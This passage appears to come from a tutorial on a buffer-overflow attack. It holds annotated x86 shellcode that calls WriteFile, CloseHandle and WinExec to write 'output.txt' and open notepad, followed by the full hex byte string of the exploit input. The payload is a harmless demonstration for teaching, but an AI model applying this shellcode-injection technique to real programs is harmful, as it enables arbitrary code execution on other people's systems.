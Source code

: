 ``` Assembly x86
57             PUSH EDI ; |pBytesWritten
6A 18          PUSH 18 ; |nBytesToWrite = 18 (24.)
51             PUSH ECX ; |Buffer
50             PUSH EAX ; |hFile
BA 803C9A75    MOV EDX,KERNEL32.WriteFile 
FFD2           CALL EDX
58             POP EAX
50             PUSH EAX / FileHandle
BA B0359A75    MOV EDX,KERNEL32.CloseHandle
FFD2           CALL EDX
BA F0E19D75    MOV EDX,KERNEL32.WinExec
//push „notepad.exe output.txt“
009D1066     68 78740000    PUSH 7478
009D106B     68 75742E74    PUSH 742E7475
009D1070     68 6F757470    PUSH 7074756F
009D1075     68 65786520    PUSH 20657865
009D107A     68 7061642E    PUSH 2E646170
009D107F     68 6E6F7465    PUSH 65746F6E
009D1084     8BCC           MOV ECX,ESP
009D1086     6A 05          PUSH 5 // uCmdShow
// SW_SHOW	Activates the window and displays it in its current size and position.
009D1088     51             PUSH ECX // lpCmdLine
009D1089     FFD2           CALL EDX
```

- Now we have hexadicimal code of out exploit 30 31 32 33 34 35 36 37 38 39 61 62 63 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 30 FF 19 00 BA 00 38 9A 75 68 78 74 00 00 68 75 74 2E 74 68 6F 75 74 70 8B CC 6A 00 68 80 00 00 00 6A 02 6A 00 6A 00 68 00 00 00 40 51 FF D2 68 6F 6F 6C 00 68 69 73 20 63 68 6C 6F 77 20 68 76 65 72 66 68 65 72 20 6F 68 42 75 66 66 8B CC 68 78 56 34 12 8B FC 50 6A 00 57 6A 18 51 50 BA 80 3C 9A 75 FF D2 58 50 BA B0 35 9A 75 FF D2 BA F0 E1 9D 75 68 78 74 00 00 68 75 74 2E 74 68 6F 75 74 70 68 65 78 65 20 68 70 61 64 2E 68 6E 6F 74 65 8B CC 6A 05 51 FF D2
* that we can write to the file using any hex editor. For example HxD program.

![Alt text](https://github.com/kirleo2/bufferoverflow-attack/blob/main/Screenshots/hex.png?raw=true "HxD")


